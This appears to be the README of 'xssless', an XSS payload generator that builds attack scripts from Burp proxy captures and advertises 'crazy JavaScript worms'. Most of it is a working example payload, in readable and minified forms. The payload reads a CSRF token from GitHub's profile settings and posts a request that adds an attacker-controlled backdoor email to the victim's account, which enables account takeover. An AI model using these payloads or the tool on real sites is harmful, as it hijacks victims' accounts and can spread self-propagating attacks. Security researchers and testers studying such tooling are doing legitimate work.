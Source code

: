 xssless
======

An automated XSS payload generator written in python.

Usage
-----

1. Record request(s) with [Burp proxy](http://portswigger.net/burp/proxy.html)
2. Select request(s) you want to generate, then right click and select "Save items"
3. Use xssless to generate your payload: `./xssless.py burp_export_file`
4. Pwn!

Features
--------
* Automated XSS payload generation from imported Burp proxy requests
* Payloads are 100% asynchronous and won't freeze the user's browser
* CSRF tokens can be easily extracted and set via the -p option
* Crazy JavaScript worms with no hassle!

Upcoming
--------
* POST multipart support for file uploads via XSS
* Self POSTing for propagating script itself

Installation
------------

If you don't have BeautifulSoup installed:

`pip install beautifulsoup4`

Download the latest xssless:

`git clone https://github.com/mandatoryprogrammer/xssless`

Run the script:

`./xssless.py -h`

Example Payload
---------------

This is an example XSS payload output (unminimized) for my github that would add an extra email to my account (backdoor@yopmail.com)

```html
<script type="text/javascript">
    var funcNum = 0;
    function doRequest(url, method, body)
    {
        var http = window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject("Microsoft.XMLHTTP");
        http.withCredentials = true;
        http.onreadystatechange = function() {
            if (this.readyState == 4) {
                var response = http.responseText; 
                var d = document.implementation.createHTMLDocument("");
                d.documentElement.innerHTML = response;
                requestDoc = d;
                funcNum++;
                try {
                    window['r' + funcNum](requestDoc);
                } catch (error) {}
            }    
        };
        if(method == "POST")
        {
            http.open('POST', url, true);
            http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
            http.setRequestHeader('Content-length', body.length);
            http.setRequestHeader('Connection', 'close');
            http.send(body);
        } else if (method == "GET") {
            http.open('GET', url, true); 
            http.send();
        } else if (method == "HEAD") {
            http.open('HEAD', url, true); 
            http.send();
        }
    }
    r0();
    function r0(requestDoc){
        doRequest('https://github.com/settings/profile', 'GET', '');
    }

    function r1(requestDoc){
        doRequest('https://github.com/users/mandatoryprogrammer/emails', 'POST', 'authenticity_token=' + encodeURIComponent(requestDoc.getElementsByName('authenticity_token')[0].value) + '&user_email%5Bemail%5D=backdoor%40yopmail.com');
    }

</script>
```

The compressed payload
```html
<script type="text/javascript">
function doRequest(e,t,n){var r=window.XMLHttpRequest?new XMLHttpRequest:new ActiveXObject("Microsoft.XMLHTTP");r.withCredentials=true;r.onreadystatechange=function(){if(this.readyState==4){var e=r.responseText;var t=document.implementation.createHTMLDocument("");t.documentElement.innerHTML=e;requestDoc=t;funcNum++;try{window["r"+funcNum](requestDoc)}catch(n){}}};if(t=="POST"){r.open("POST",e,true);r.setRequestHeader("Content-type","application/x-www-form-urlencoded");r.setRequestHeader("Content-length",n.length);r.setRequestHeader("Connection","close");r.send(n)}else if(t=="GET"){r.open("GET",e,true);r.send()}else if(t=="HEAD"){r.open("HEAD",e,true);r.send()}}function r0(e){doRequest("https://github.com/settings/profile","GET","")}function r1(e){doRequest("https://github.com/users/mandatoryprogrammer/emails","POST","authenticity_token="+encodeURIComponent(e.getElementsByName("authenticity_token")[0].value)+"&user_email%5Bemail%5D=backdoor%40yopmail.com")}var funcNum=0;r0()
</script>
```

Contributing
------------

Want to contribute some code to this project? Great! I'm not the best at Python or Javascript so I appreciate any additions to the project. Contributions can also be in the form of new feature ideas, if you've got one let me know!

